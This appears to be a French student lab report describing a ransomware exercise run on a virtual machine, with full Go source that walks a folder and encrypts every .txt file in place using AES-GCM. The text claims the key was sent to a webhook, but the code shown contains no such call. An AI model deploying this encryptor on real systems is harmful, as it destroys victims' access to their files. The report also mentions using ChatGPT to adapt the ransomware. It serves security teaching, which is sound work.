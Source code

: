 # TP 3
1. Pour le server et le Webhok j'ai utilisé ceux des TP précédents
2. pour le script j'ai piqué [celui ci](https://gist.github.com/donvito/efb2c643b724cf6ff453da84985281f8)
\
avec ChatGPT je l'ai modifié pour qu'il chiffre "C:\Users\Fsaint\Desktop\test\mdp.txt" en particulier et qu'il envoie la clé de déchiffrement sur mon WebHook
\
Le script final : 
```
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"encoding/hex"
	"fmt"
	"io"
	"io/ioutil"
	"os"
	"path/filepath"
)

func main() {
	// Générer une clé aléatoire pour AES-256
	bytes := make([]byte, 32) // 32 bytes = 256 bits
	if _, err := rand.Read(bytes); err != nil {
		panic(err.Error())
	}

	key := hex.EncodeToString(bytes) // Encoder la clé en string pour la garder secrète
	fmt.Printf("Clé pour chiffrer/déchiffrer : %s\n", key)

	// Parcourir les fichiers txt dans le dossier spécifié
	directory := "C:\\Users\\fsaint\\Desktop\\test" // Remplace par le chemin de ton dossier
	err := filepath.Walk(directory, func(path string, info os.FileInfo, err error) error {
		if err != nil {
			return err
		}
		// Vérifier si le fichier est un fichier .txt
		if !info.IsDir() && filepath.Ext(path) == ".txt" {
			fmt.Printf("Chiffrement du fichier : %s\n", path)

			// Lire le contenu du fichier
			content, err := ioutil.ReadFile(path)
			if err != nil {
				return err
			}

			// Chiffrer le contenu du fichier
			encrypted := encrypt(string(content), key)

			// Remplacer le contenu du fichier par le texte chiffré
			err = ioutil.WriteFile(path, []byte(encrypted), 0644)
			if err != nil {
				return err
			}
			fmt.Printf("Fichier chiffré et sauvegardé : %s\n", path)
		}
		return nil
	})

	if err != nil {
		fmt.Println("Erreur lors de la lecture du dossier:", err)
	}
}

func encrypt(stringToEncrypt string, keyString string) (encryptedString string) {
	// Décoder la clé en bytes
	key, _ := hex.DecodeString(keyString)
	plaintext := []byte(stringToEncrypt)

	// Créer un nouveau bloc de chiffrement avec la clé
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err.Error())
	}

	// Créer un nouveau GCM
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		panic(err.Error())
	}

	// Créer un nonce. Le nonce doit être obtenu depuis GCM
	nonce := make([]byte, aesGCM.NonceSize())
	if _, err = io.ReadFull(rand.Reader, nonce); err != nil {
		panic(err.Error())
	}

	// Chiffrer les données en utilisant aesGCM.Seal
	// Ajouter le nonce au début des données chiffrées
	ciphertext := aesGCM.Seal(nonce, nonce, plaintext, nil)
	return fmt.Sprintf("%x", ciphertext)
}
```
3. je l'ai rendu executable puis executé sur ma vm 
\
Fichier original : 
![mdp](mdptxt.png)
Fichier chiffré :
![chiffré](chiffré.png)
resultat sur le server
![webhook](webhook.png)
4. decrypt tool fait entièrement par ChatGPT a partir du encrypt tool
donc quand je l'execute il demande la clé
![decrypt](decrypt.png)
apres que la clé soit rentrée le fichier texte retrouve les données d'origine
![cbon](retouralanormale.png)